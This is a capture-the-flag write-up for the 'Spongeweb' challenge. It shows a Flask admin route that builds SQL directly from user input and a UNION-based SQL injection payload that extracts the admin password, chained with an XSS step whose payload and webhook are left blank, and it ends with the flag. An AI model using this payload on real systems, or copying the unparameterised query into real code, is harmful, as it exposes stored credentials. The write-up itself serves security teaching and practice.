


# Spongeweb
> I really like hacking.
> I really like privacy.
> And I really like spongebob.
> I combined all of them and created an anonymous sharing platform with HTML support. Feel free to share payloads, malware, and stolen credit cards ;).
> Btw it's called spongeweb, but it has nothing to do with [this](https://trollpasta.com/wiki/SpongeWeb).

## About the Challenge
We were given a source code that you can download the source code [here](spongeweb.zip)

## How to Solve?
This is a combination between Cross-Site Scripting (XSS) and SQL Injection (SQLi). The flag was located in the admin password (You can check in the `users` table). Instead of stealing the cookie, we can exploit the website using SQL Injection because of there is no filter in `/admin` endpoint

```python
@app.route('/admin', methods=['GET', 'POST'])
def admin():
	if 'username' not in session:
		return redirect(url_for('login'))
	#view analytics
	if 'query' in request.args:
		query = request.args.get('query')
		try:
			cur = get_db().execute("SELECT count(*) FROM {0}".format(query))
		except:
			return render_template('adminPanel.html') , 500
		result = cur.fetchall()
		cur.close()
		return render_template('adminPanel.html', result=result, param=query)	
	else:
		return render_template('adminPanel.html')
```

And we need to print the flag by using `users union select (select password from users)--` payload. Example:

```
GET /admin?query=users union select (select password from users)--
Host: xxxxx
User-Agent: xxxx
...
```

And because we can't access `/admin` endpoint directly, we need to exploit the website using XSS to trick the admin to execute SQL injection and then send the result into our webhook. Here is the final payload I used to obtain the flag

```

```

Create the thread and then report the URL to admin. My webhook:



Decode the `Base64` encoded string to obtain the flag



```
srdnlen{XSSS_cr0Ss_S1T3_sP0nG3wEb_SQLi}
```